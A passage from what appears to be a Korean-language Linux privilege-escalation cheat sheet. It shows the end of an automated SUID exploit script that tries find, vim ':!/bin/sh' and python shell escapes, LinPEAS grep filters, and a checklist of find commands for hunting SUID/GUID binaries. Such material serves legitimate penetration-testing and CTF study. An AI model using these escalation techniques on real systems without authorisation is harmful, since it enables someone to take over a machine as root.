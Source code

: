 ```bash
        $find_binary . -exec whoami \; -quit 2>/dev/null
    fi

    # vim 테스트
    vim_binary=$(find / -name "vim" -type f -perm -4000 2>/dev/null | head -1)
    if [ ! -z "$vim_binary" ]; then
        echo "Found SUID vim: $vim_binary"
        echo "Manual exploit: $vim_binary -c ':!/bin/sh'"
    fi

    # python 테스트
    python_binary=$(find / -name "python*" -type f -perm -4000 2>/dev/null | head -1)
    if [ ! -z "$python_binary" ]; then
        echo "Trying python exploit..."
        $python_binary -c 'import os; os.system("id")' 2>/dev/null
    fi
}

# 실행
auto_suid_exploit
```

### 🔧 LinPEAS에서 SUID 정보 빠르게 추출

```bash
# LinPEAS 실행 후 SUID 부분만 추출
./linpeas.sh | grep -A 20 -B 5 "SUID.*ROOT"

# 또는 특정 섹션만 실행
./linpeas.sh -o SysI | grep -E "(SUID|sudo|find|vim|python)"
```

## 👀 놓치기 쉬운 것들

### 🚨 자주 놓치는 체크포인트

```bash
# 1. 비표준 경로의 SUID 바이너리들
find /home /tmp /var /opt /usr/local -type f -perm -4000 2>/dev/null

# 2. 심볼릭 링크 SUID (드물지만 존재)
find / -type l -perm -4000 2>/dev/null

# 3. SUID 디렉토리 (디렉토리가 SUID인 경우)
find / -type d -perm -4000 2>/dev/null

# 4. GUID 파일들도 체크 (그룹 권한으로 상승)
find / -type f -perm -2000 2>/dev/null

# 5. 조건부 SUID (특정 조건에서만 실행)
find / -type f -perm -4000 -exec file {} \; 2>/dev/null | grep -i script

# 6. 쓰기 가능한 SUID 바이너리의 디렉토리
find / -type f -perm -4000 -exec dirname {} \; 2>/dev/null | sort -u | xargs ls -la 2>/dev/null

# 7. SUID 바이너리의 라이브러리 의존성
find / -name "*" -type f -perm -4000 2>/dev/null | head -5 | xargs ldd 2>/dev/null

# 8. 환경 변수 상속 가능한 SUID
find / -type f -perm -4000 2>/dev/null | xargs strings 2>/dev/null | grep -E "(PATH|LD_|SHELL)" | head -10

# 9. 최근 수정된 SUID 파일들 (커스텀일 가능성)
```